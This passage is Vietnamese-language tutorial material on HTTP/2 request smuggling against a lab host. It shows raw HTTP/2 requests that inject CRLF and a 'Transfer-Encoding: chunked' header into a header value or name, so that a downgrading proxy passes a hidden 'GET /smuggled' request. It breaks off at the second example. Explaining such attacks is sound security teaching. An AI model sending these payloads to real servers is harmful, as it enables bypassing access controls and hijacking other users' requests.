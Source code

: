 #### Ví dụ:

**HTTP/2 Request:**
```
:method POST
:path /
:authority http2.htb
:scheme http
dummy asd\r\nTransfer-Encoding: chunked
0

GET /smuggled HTTP/1.1
Host: http2.htb
```

**Mô tả:**
- Kẻ tấn công tạo một header `dummy` với giá trị `asd\r\nTransfer-Encoding: chunked`.
- Ký tự `\r\n` không có ý nghĩa đặc biệt trong HTTP/2, nhưng khi proxy chuyển đổi sang HTTP/1.1, nó sẽ chia header thành hai phần.

**Khi được chuyển sang HTTP/1.1:**
```
POST / HTTP/1.1
Host: http2.htb
Dummy: asd
Transfer-Encoding: chunked
Content-Length: 48

0
GET /smuggled HTTP/1.1
Host: http2.htb
```

**Phân tích:**
- Proxy thêm header `Content-Length`, nhưng server ưu tiên `Transfer-Encoding: chunked`.
- Kết quả là request tiếp theo `GET /smuggled HTTP/1.1` bị xử lý một cách không mong muốn, gây ra lỗ hổng Request Smuggling.

### 2. Header Name Injection (Chèn tên header)

Một vấn đề tương tự xảy ra nếu proxy không kiểm tra tên header HTTP/2 một cách chính xác.

#### Ví dụ:

**HTTP/2 Request:**
```
:method POST
:path /
:authority http2.htb
:scheme http
dummy: asd\r\nTransfer-Encoding chunked
0

GET /smuggled HTTP/1.1
Host: http2.htb
```

